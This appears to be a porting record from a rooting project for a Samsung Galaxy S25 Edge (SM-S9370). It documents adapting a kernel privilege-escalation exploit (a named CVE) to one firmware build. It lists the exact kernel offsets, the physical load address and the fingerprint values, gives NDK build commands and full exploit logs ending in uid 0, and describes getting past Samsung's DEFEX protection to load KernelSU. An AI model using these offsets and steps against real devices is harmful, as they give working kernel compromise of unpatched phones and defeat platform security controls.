


# SM-S9370 / S9370ZCS9CZG1 porting record

Device-tested temporary root + KernelSU (LKM jailbreak mode) on 2026-08-07.
Locked bootloader; no persistent boot.img modification. Re-establish per boot.

## 1. Firmware identity

| field | value |
| --- | --- |
| model | `SM-S9370` (Galaxy S25 Edge, Greater China) |
| AP/PDA | `S9370ZCS9CZG1` |
| CSC | `S9370CHC9CZG1` (CHC, China mainland) |
| codename | `psq` |
| build fingerprint | `samsung/psqzcx/psq:16/BP4A.251205.006/S9370ZCS9CZG1_CHC9CZG1:user/release-keys` |
| kernel release | `6.6.98-android15-8-p5a696e2-abogkiS9370ZCS9CZG1-4k` |
| kernel SHA-256 | `8f7252562f6654a499cff5307a22e1ca402eefabad7a007b056b40e661473a74` |

This device uses the `p5a696e2-abogki` GKI base, **not** the `pa3q` GKI of the
S25 Ultra (`S938N`). The shared `galaxy-s25-series` payload is built from
`pa3q-S938NKSUACZF1` and does not work on this device.

## 2. Why a separate profile — the 24/24 failure with the shared pa3q payload

Running the stock `galaxy-s25-series` payload (Root My Galaxy app, 2026-08-07)
failed 24/24 attempts. Decisive log lines (pids redacted):

```text
[+] 支持配置: galaxy-s25-series-2026-06-07
[+] build config label=pa3q-S938NKSUACZF1-app-physical-p0-oracle slide=pselect main=pselect
[*] pipe caches normal1k=0000000000000000 normal2k=0000000000000000 cgroup1k=0020000000000fc3 cgroup2k=0028000000000fc3 selected=0028000000000fc3
[*] phys step cache gate failed slab=ffffff8001cf4c00 want=0028000000000fc3
[+] pipe physrw done=0 root=0 read_ok=0 write_ok=0 rw64=0/0 uid=4294967295->4294967295
[-] exploit attempt=1/24 failed status=1
   ... (all 24 attempts fail identically at the cache gate) ...
[-] exploit attempt=24/24 failed status=1
[!] exploit failed after 24 independent attempts
[-] payload 执行错误: 255
[*] 安装失败
```

Root cause: `KMALLOC_CACHES_OFF` in the `pa3q` profile points to the wrong
address on this kernel, so the oracle reads garbage (`normal1k=0`,
`cgroup2k=0x0028000000000fc3` — not real slab-cache pointers) instead of the
kmalloc-2k cache pointer. The pipe pages' real slab cache (`ffffff8001cf4c00`)
never matches the garbage entries, so `pipe_cache_matches()` fails every
attempt. This is a deterministic offset mismatch, not a race (24/24 identical
failure at the same gate).

## 3. Offsets that differ from pa3q-S938NKSUACZF1

Only two kernel-data offsets differ. All other offsets were re-derived from
this kernel's `vmlinux.elf` / BTF and match `pa3q` (all `.text` symbol
offsets, `task_struct`/`page`/`rt_mutex_waiter`/`file_operations`/workqueue
struct layouts, `SLIDE_TRACEFS_WORKER_CALLER_OFF`, `SLIDE_TRACEFS_EVENT_ID=109`,
`SELINUX_ENFORCING_OFF`, `P0_*`, etc.).

| macro | pa3q (S25 Ultra) | psq (this device) | source |
| --- | ---: | ---: | --- |
| `KMALLOC_CACHES_OFF` | `0x017da710` | `0x017dac30` | `kmalloc_caches` symbol |
| `SLIDE_NFULNL_LOGGER_NAME_OFF` | `0x0175e2a1` | `0x0175e6e9` | `nfulnl_logger.name` pointer → `"nfnetlink_log"` string |

## 4. Physical load address

```c
#define P0_PHYS_OFFSET       0x80000000ULL   /* vendor_boot DTB gunyah_hyp_region@80000000 */
#define P0_KERNEL_PHYS_LOAD  0xa8000000ULL   /* uefi.elf literals + pa3q/q7q agreement */
```

Qualcomm device; the BL has no `sboot.bin`. The load address comes from
`uefi.elf` (the UEFI LinuxLoader; `0xa8000000` appears as a literal), not
`abl.elf` (a 32-bit ARM ELF wrapper here). Confirmed indirectly by the `pa3q`
run reaching the cache gate with correct direct-map address math.

## 5. SLIDE_PSELECT_WORD_SHIFT

```c
#define SLIDE_PSELECT_WORD_SHIFT 0
```

Derived, not a guess. Non-LEGACY `rt_mutex_waiter` uses words 0-13; with the
global `PSELECT_ROUTE_NFDS=320` the logical fd_set array is 15 qwords, so
`SHIFT + 13 <= 14` ⇒ `SHIFT <= 1`. A value of 3 is impossible under `nfds=320`.

## 6. p0 fingerprint

Regenerated from this kernel's raw Image with
`tools/generate_p0_fingerprint.pl` (`PROBE_OFFSET=0x1f0000`). It differs from
the `pa3q` table (e.g. row 0 word 1: `0xeb00029f943c802c` vs `pa3q`'s
`0xeb00029f943c77ac`), so the shared `pa3q` table cannot be reused.

## 7. KernelSU

The existing `kernelsu/ksud-s25u-kdp` (`android15-6.6` KMI) loads without
modification. ksud adapts the vermagic and resolves symbols at runtime via
`/proc/kallsyms` (`kptr_restrict` 2→1). Samsung DEFEX Safeplace blocks
executing ksud from `/data/local/tmp/`; the daemon's `--late-load` bypasses it
by bind-mounting ksud over `/system/bin/logcat` in a private mount namespace.
KSU comes up in LKM jailbreak mode (no `/sys/module/kernelsu`; verify via
`/proc/modules` or the KernelSU manager). No KernelSU rebuild or binary patch
is needed.

## 8. Build (macOS)

The exploit is built with the Android NDK on macOS (Intel). The Makefile
hardcodes the `linux-x86_64` prebuilt path; override `TARGET_CC` to
`darwin-x86_64`. Use `make all` (not `make release` — the release target's
`stat -c %s` is GNU-only and fails on macOS).

```sh
brew install --cask android-ndk          # NDK r29, API 35
NDK=/usr/local/share/android-ndk
CC="$NDK/toolchains/llvm/prebuilt/darwin-x86_64/bin/aarch64-linux-android35-clang"

make all TARGET=psq-S9370ZCS9CZG1 ANDROID_NDK_HOME="$NDK" TARGET_CC="$CC"
```

Outputs in `build/psq-S9370ZCS9CZG1/`:

| file | use |
| --- | --- |
| `cve-2026-43499` | root-umh variant (LD_PRELOAD) |
| `cve-2026-43499-app.so` | app variant (used via `--run-payload`) → copy to `artifacts/psq-S9370ZCS9CZG1/` |
| `cve-2026-43499-root` | root helper / su_daemon |

The kernel extraction + offset derivation procedure is in
[`docs/PORTING.md`](PORTING.md); this record only lists the device-specific
results.

## 9. Device validation (2026-08-07)

### Exploit (app variant via `--run-payload`)

Full session log (attempts 1-4; attempt 4 succeeds). Captured from a
pre-rename build labeled `s9370-...`; the `psq-S9370ZCS9CZG1` build is
identical except the variant label string.

```text
[+] preload supervisor attempts=24 base_delay=20000 p0_timeout=45 timeout=120
[+] exploit attempt=1/24 p0_offset=scan
[*] slide pselect returned nfds=320 ret=0
[*] p0 physical write status=256 ok=0
[!] p0 physical slot=0 write window failed after 1 attempt(s)
[-] exploit attempt=1/24 failed status=255
[+] exploit attempt=2/24 p0_offset=scan
[*] p0 physical write status=256 ok=0
[-] exploit attempt=2/24 failed status=255
[+] exploit attempt=3/24 p0_offset=scan
[*] p0 fingerprint sample ... slide=00130000
[*] p0 fingerprint pipe=33 best=8 second=0 slide=00130000
[+] slide-kaslr-ok source=physical slide=0000000000130000
[*] app fops stage=trigger-return attempt=1 triggered=0    (fops trigger race)
[+] pipe-physrw-summary done=0 root=0
[-] exploit attempt=3/24 failed status=1
[+] exploit attempt=4/24 p0_offset=0x130000
[+] slide-kaslr-ok source=forced slide=0000000000130000
[*] app fops stage=trigger-return attempt=1 triggered=1
[*] cfi write ret=35 errno=0
[*] cfi read ret=35 errno=0
[*] cfi restoring misc_fops target=ffffff802a5ad7f0 value=ffffffc08153b440
[*] pipe caches normal1k=ffffff8001cf4b00 normal2k=ffffff8001cf4c00 cgroup1k=ffffff8001cf4b00 cgroup2k=ffffff8001cf4c00 selected=ffffff8001cf4c00
[*] pipe page idx=0 cache08=ffffff8001cf4c00 match=1
[*] phys step pipe probe found=1
[*] phys step probed read done ok=1
[*] phys step probed write done ok=1
[*] phys step read64 done ok=1 value=306365737562656e
[*] root umh result wake=1 complete=1 retval=0 socket=1
[+] pipe-physrw-summary done=1 root=1 kaslr=1
[+] pipe physrw done=1 root=1 read_ok=1 write_ok=1 rw64=1/1 uid=2000->0
[+] exploit completed attempt=4/24
```

Temporary root:

```sh
$ adb shell "/data/local/tmp/cve-2026-43499-root -c id"
uid=0(root) gid=0(root) groups=0(root) context=u:r:kernel:s0
```

### KernelSU re-establish

```sh
$ adb shell "/data/local/tmp/cve-2026-43499-root -c 'echo 1 > /proc/sys/kernel/kptr_restrict'"
$ adb shell "cp /data/local/tmp/ksud-s25u-kdp /data/local/tmp/.ksud-stage && chmod 755 /data/local/tmp/.ksud-stage"
$ adb shell "/data/local/tmp/cve-2026-43499-root --late-load"
```

`--late-load` is silent on success (it restores Enforcing, which disconnects
the `cve-2026-43499-root` client — use the KernelSU manager from here on).
Recreate `.ksud-stage` before every `--late-load` (the loader renames it to
`/data/adb/ksud`).

### Verification

```sh
# /proc/modules (via KSU su in Termux)
$ cat /proc/modules | grep kernelsu
kernelsu 172032 4 - Live 0xffffffc07d2e2000 (O)
```

KernelSU manager: `Working <LKM> [Jailbreak mode] 32525-2`



Termux (root granted via KSU manager):

```sh
$ su
# id
uid=0(root) gid=0(root) groups=0(root) context=u:r:ksu:s0
```



## 10. Scope

Verified only for `SM-S9370` / `S9370ZCS9CZG1` (China mainland, `abogki`
GKI). `targets-v3.json` lists only `SM-S9370` for this payload.

Both temp root and KSU are per-boot (locked bootloader; no persistent boot.img
modification). Re-establish after reboot: exploit (`--run-payload`) →
`kptr_restrict=1` → recreate `/data/local/tmp/.ksud-stage` → `--late-load`.
